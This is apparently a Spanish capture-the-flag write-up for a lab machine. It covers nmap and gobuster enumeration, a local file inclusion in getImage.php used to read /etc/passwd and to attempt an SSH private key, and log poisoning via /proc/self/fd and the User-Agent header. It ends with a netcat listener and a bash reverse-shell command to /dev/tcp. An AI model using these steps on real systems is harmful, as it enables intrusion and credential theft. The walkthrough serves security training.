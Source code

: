 ### Tags: 

# Reconocimiento (`Linux`)
Lo primero que hacemos es un **escaneo de equipos** que estén conectados ami red de esta forma:

```ruby
arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/0d841dc0-3bbe-40cb-b2c0-6bc7d8cefb0d)

# Escaneo (*22, 80, 7080, 8000, 8088*)

```css
sudo nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn <IP>
```

![image](https://github.com/user-attachments/assets/b0112b72-bead-4b9a-8bf3-936cd03d381d)

```css
sudo nmap -p22,80,7080,8000,8088 -sCV 192.168.0.137 -oN escaneo 
```

![image](https://github.com/user-attachments/assets/94a84aa7-fb19-46ab-a11d-7a2163c1d7ea)
![image](https://github.com/user-attachments/assets/83c1dc7d-bc97-402e-80bd-8ce1d91cf2c6)


# Port 80 *-* 8000 *-* 8088

- Estos 3 puertos contiene la misma información que es una imagen que no me carga que es esta:
	- Por ende mucho no podemos hacer por ahora

![image](https://github.com/user-attachments/assets/0336f7c8-328a-469c-b4f9-942e99fb6b03)

## Gobuster

Lo que hicimos es jugar con **gobuster** para descubrir directorios y nos encontró el `/cgi-data/`

```ruby
gobuster dir -u http://<IP>  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html --add-slash
```

![image](https://github.com/user-attachments/assets/ede42644-3bd8-403d-99b0-6b57eced0a9b)

Tenemos es `getImage.php`

![image](https://github.com/user-attachments/assets/07bc8e11-fbcd-4b34-8e2e-8870e8f95ada)

# LFI 

En donde si pinchamos en ese archivo y hacemos un `Ctrl + u` observamos esto:

![image](https://github.com/user-attachments/assets/798b4477-a37c-4a92-9587-ed78fde50507)

El cual como vimos poniendo `?file=/etc/passwd` tenemos un LFI

![image](https://github.com/user-attachments/assets/6296c3df-4acc-43bc-af35-8362e2b00c2c)

- Enumeramos procesos que se puedan estar corriendo en la máquina para ver que es lo que hay y vimos **Apache y Mysqld** pero nada interesante
	- comando: `file=/proc/sched_debug`

- También tratamos de listar los **logs** *de apache* pero nada 
	- comando:  `file=/var/log/apache2/access.log`

- Como estaba el puerto **ssh** activo vas a probar listar *los logs de conexión ssh* pero tampoco obtuvimos nada
	- comando:  `file=/var/log/auth.log`

- Tratamos de leer la **clave id_rsa** de Durian pero no pudimos tampoco
	- comando: `file=/home/durian/.ssh/id_rsa`

# BurpSuite

- Lo que hacemos ahora es interceptar la petición con Burp ya que a veces hay ciertos logs los podemos ver atendiendo a otras rutas en el sistema.
	- Lo que vamos a hacer es atentar a esta ruta del sistema `/proc/self/fd`  **informa sobre los archivos abiertos por un proceso**
	- Si haces en nuestra máquina un **ls** `/proc/self/fd` vemos unos números pero en la máquina que ataques capas puede haber como 40

![image](https://github.com/user-attachments/assets/bea0e28c-e363-4988-8944-45699bc1fef6)

### Intruder ---> Sniper

Lo primero que hacemos e scapturar la peticion con Burp y mandarlo al Repeater

![image](https://github.com/user-attachments/assets/0662e375-8b5f-481e-8f68-9f1ce786ecbd)

- Ahora lo que hacemos es hacer un Ataque de tipo **SNIPER** al `/proc/self/fd/0` en el **Intruder** del 1 hasta al 40 y ver la longitud de respuesta:
	- Haces un `Ctrl + i` así lo mandamos al Intruder y hacer estos pasos:

![image](https://github.com/user-attachments/assets/0a3ff041-6106-4d31-bae8-e2a796ec4c0f)

Ahora nos vamos a la sección `Payloads` , en **Paylod type** lo hacemos de tipo `Numbers` desde el 1 hasta el 30 de uno en uno

![image](https://github.com/user-attachments/assets/2f8d3723-3493-4528-9b31-a511fe5eb376)

Si vemos en el numero 8 tenesmo una longitud de respuestas bastantes distintas a las otras 

![image](https://github.com/user-attachments/assets/9695103d-8795-497e-82bd-7f2231914b9b)

- Si lo mandamos al `Repeater` observamos esto cuando le damos a send
	- Una petición **GET** a la raíz y el **User-Agent** de quien realizo la petición

![image](https://github.com/user-attachments/assets/fbfc2272-5c1f-4347-83a6-7805c839748e)

Entonces lo que hacemos es poner código PHP en el `User-Agent` ya que lo podemos manipular nosotros 

![image](https://github.com/user-attachments/assets/29ca8e47-8f1b-4302-b28e-3b2c95f64746)

Una ves que le dimos a **Send**, esto nos debería haber representado un **log** entonces si en la web ponemos lo siguiente, vemos que tenemos **ejecución remota de comandos**

![image](https://github.com/user-attachments/assets/b5543e64-1ffb-4826-a0eb-43f5a788c9ac)
![image](https://github.com/user-attachments/assets/e8fec28c-4704-4db7-932f-083039e841b9)

- Ahora lo que hacemos es ganar acceso a la máquina:
	 - Primero nos ponemos en escucha
    
```css
nc - nlvp 4444
```

Nos mandamos una Reverse-Shell

```ruby
bash -c "bash -i >%26 /dev/tcp/<IP>/4444 0>%261"
```












